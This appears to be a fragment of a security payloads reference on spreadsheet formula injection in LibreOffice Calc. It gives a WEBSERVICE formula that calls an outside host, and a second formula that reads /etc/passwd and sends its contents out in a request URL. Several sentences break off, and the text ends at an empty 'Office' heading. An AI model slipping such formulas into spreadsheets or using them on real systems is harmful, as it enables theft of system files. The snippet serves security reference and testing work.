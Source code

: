


## Payloads



## Libreoffice / Linux

In order to make a simple request through libreoffice Calc you can do this in a cell:

```
=WEBSERVICE("http://labburk.se")
```
To get this to execute on Libreoffice > 6 is quite a hassle. First the user mst open the document and allow importing passwd file. Then the user must 

```
=WEBSERVICE(CONCATENATE("http://localhost:8888/?AA", ('file:///etc/passwd'#$passwd.A1)))
```

Documented here:
https://www.notsosecure.com/data-exfiltration-formula-injection/

You can



## Office
